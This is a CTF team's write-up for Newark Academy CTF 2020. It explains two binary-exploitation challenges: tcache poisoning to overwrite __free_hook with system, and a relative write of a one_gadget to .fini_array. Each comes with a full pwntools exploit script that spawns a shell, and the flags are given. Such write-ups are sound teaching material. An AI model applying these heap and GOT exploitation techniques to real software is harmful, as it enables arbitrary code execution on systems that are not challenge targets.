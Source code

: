 # Newark Academy CTF 2020 Internal

b1c takes third global and first in highschools (We stole Gabe for one algo challenge *again*).

We also maintained the b1c tradition of dropping from 1st to 3rd due to a single challenge (*ahem* veggie factory 5 *ahem*) :upside_down_face:


## Grade calculator

Coming soon after admins finish verifications :D


## Covid tracker tracker tracker

No PIE, so we can poison tcache and point it to `setvbuf@got` to read a libc pointer. Then, we can poison tcache again to write `system` to `__libc_free_hook`.

We have to do some fiddling with the amount of trackers we create to ensure we can recover from the initial tcache poison. The tcache will look something like `HEAD -> <actual chunks> -> setvbuf@got -> setvbuf@libc -> <bad memory>`. Any further allocations past setvbuf@libc would cause a segfault.

We can fix this by creating an excess of freeable chunks before poisoning, and freeing them to the head of the desired tcache bin after our first poison, creating a sort of "buffer" of newly poisonable chunks.

Then, just tcache poison to overwrite `__libc_free_hook` with `system` and free a chunk with `/bin/sh`.


```python=
from pwn import *

e = ELF("./cttt")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process([ld.path, e.path], env={"LD_PRELOAD": libc.path})
p = remote("challenges.ctfd.io", 30252)

context.log_level="debug"
gdb.attach(p, """c""")

def add():
    p.sendlineafter(">", "1")


def edit(idx, n):
    p.sendlineafter(">", "2")
    p.sendlineafter("?", str(idx))
    p.sendlineafter("?", n)


def remove(idx):
    p.sendlineafter(">", "3")
    p.sendlineafter("?", str(idx))


def show():
    p.sendlineafter(">", "4")



add()   #1
add()   #2
add()   #3
add()   #4
add()   #5
add()   #6
add()   #7
add()   #8
add()   #9
add()   #10
edit(10, "/bin/sh")



remove(6)
remove(5)
remove(4)
remove(3)
remove(2)
remove(1)


edit(1, p64(e.got["setvbuf"]))



add()   #11
add()   #12

show()

p.recvuntil("12) ")

libc.address = u64(p.recv(6).ljust(8, "\x00")) - 529136


print("libc base", hex(libc.address))


remove(7)

edit(7, p64(libc.sym["__free_hook"]))

add()   #13
add()   #14

edit(14, p64(libc.sym["system"]))

remove(10)



p.interactive()
```

Flag: `nactf{d0nt_us3_4ft3r_fr33_zsouEFF4bfCI5eew}`


## Tale of two
We get one relative read and one relative write. We can read a libc pointer at offset -4 and we can write a one_gadget to .fini_array at offset -75.

```python=
from pwn import *

e = ELF("./tale-of-two")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = e
context.terminal = ["konsole", "-e"]

p = process(e.path)
p = remote("challenges.ctfd.io", 30250)


context.log_level="debug"
gdb.attach(p, """b * main+190
           b * main+233
           c""")


#read

p.sendlineafter("?", "-4")

p.recvline()

libc.address = int(p.recvline().strip(), 16) - 507584

print("libc base", hex(libc.address))




#write a one gadget to .fini_array, which is at offset -600/8 == -75

og = libc.address + 0x4f322

print("one gadget", hex(og))

p.sendlineafter("?", "-75")

p.sendlineafter("?", str(og))


p.interactive()
```

Flag: `nactf{a_l0n3ly_dt0r_4nd_a_sh3ll_tUIlF0jxW5aMXoGo}`
